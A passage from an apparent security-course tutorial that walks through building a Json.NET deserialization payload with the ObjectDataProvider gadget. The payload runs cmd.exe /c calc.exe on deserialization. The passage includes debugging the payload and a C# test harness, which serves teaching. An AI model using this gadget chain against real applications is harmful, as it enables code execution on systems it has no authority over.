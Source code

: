 Taking a look at the JSON object, we can see that there is a long `Error` section due to `Start1` not being a valid method. We can just remove this and change `Start1` back to `Start` so that the correct method will be called when we deserialize the object. We can also remove the `IsAsynchronous`, `IsInitialLoadEnabled`, and `Data` fields since we don't require any specific values for these properties to achieve code execution:

```json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
  "ObjectType": "<SNIP>",
  "MethodName": "Start",
  "MethodParameters": {
    "$type": "<SNIP>",
    "$values": [
      "C:\\Windows\\System32\\cmd.exe",
      "/c calc.exe"
    ]
  }
}

```

We can now test this payload to make sure the calculator is spawned with the following lines of code:

```csharp
string payload = "{\"$type\":\"System.Windows.Data.ObjectDataProvider, PresentationFramework\",\"ObjectType\":\"<SNIP>\",\"MethodName\":\"Start\",\"MethodParameters\":{\"$type\":\"<SNIP>\",\"$values\":[\"C:\\\\Windows\\\\System32\\\\cmd.exe\",\"/c calc.exe\"]}}";
JsonConvert.DeserializeObject(payload, settings);

```

Although you would think it should work, we ran into another error. We get an error in `Process.Start` because a `"file name was not provided"`.

![image](https://academy.hackthebox.com/storage/modules/240/3/17.png)

Luckily, with a bit of trial and error, the fix is simple. We must simply move the `"MethodName"` field to after the `"MethodParameters"` field, since right now the object creation is occurring before the parameters are set. So our updated payload will look like this:

```json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
  "ObjectType": "<SNIP>",
  "MethodParameters": {
    "$type": "<SNIP>",
    "$values": [
      "C:\\Windows\\System32\\cmd.exe",
      "/c calc.exe"
    ]
  },
  "MethodName": "Start"
}

```
